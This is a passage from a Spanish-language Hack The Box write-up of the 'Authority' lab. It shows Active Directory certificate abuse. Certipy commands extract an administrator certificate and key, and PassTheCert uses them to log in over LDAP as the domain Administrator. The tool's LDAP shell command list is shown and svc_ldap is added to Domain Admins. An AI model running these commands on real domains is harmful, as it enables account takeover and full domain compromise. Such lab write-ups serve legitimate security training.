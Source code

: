 {% embed url="https://github.com/AlmondOffSec/PassTheCert" %}

```bash
❯ certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'administrator.crt'

❯ certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing private key to 'administrator.key'
```

Con **PassTheCert**, utilizamos la clave privada y el certificado generado anteriormente para autenticarnos. El resultado confirma que estamos autenticados como **HTB\Administrator**, lo que significa que podemos conectarnos vía **LDAP SChannel** y realizar otras acciones para intentar **escalar privilegios** y obtener acceso completo al sistema.

```bash
❯ python3 /opt/PassTheCert/Python/passthecert.py -action whoami -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] You are logged in as: HTB\Administrator
```

### Nº1 PrivEsc - Adding user to Domain Admins group trough PassTheCert Authentication

El primer método que probamos fue utilizar `PassTheCert` para conectarnos a una **shell de LDAP** que ofrece la herramienta. Desde ahí, usamos el comando `add_user_to_group` para añadir el usuario no privilegiado que teníamos previamente al grupo `Domain Admins`.

El resultado confirma que el usuario **`svc_ldap`** fue agregado con éxito al grupo **`Domain Admins`**, lo que nos otorga privilegios elevados en el dominio.

```bash
❯ python3 /opt/PassTheCert/Python/passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands

# help

 add_computer computer [password] [nospns] - Adds a new computer to the domain with the specified password. If nospns is specified, computer will be created with only a single necessary HOST SPN. Requires LDAPS.
 rename_computer current_name new_name - Sets the SAMAccountName attribute on a computer object to a new value.
 add_user new_user [parent] - Creates a new user.
 add_user_to_group user group - Adds a user to a group.
 change_password user [password] - Attempt to change a given user's password. Requires LDAPS.
 clear_rbcd target - Clear the resource based constrained delegation configuration information.
 disable_account user - Disable the user's account.
 enable_account user - Enable the user's account.
 dump - Dumps the domain.
 search query [attributes,] - Search users and groups by name, distinguishedName and sAMAccountName.
 get_user_groups user - Retrieves all groups this user is a member of.
 get_group_users group - Retrieves all members of a group.
 get_laps_password computer - Retrieves the LAPS passwords associated with a given computer (sAMAccountName).
 grant_control target grantee - Grant full control of a given target object (sAMAccountName) to the grantee (sAMAccountName).
```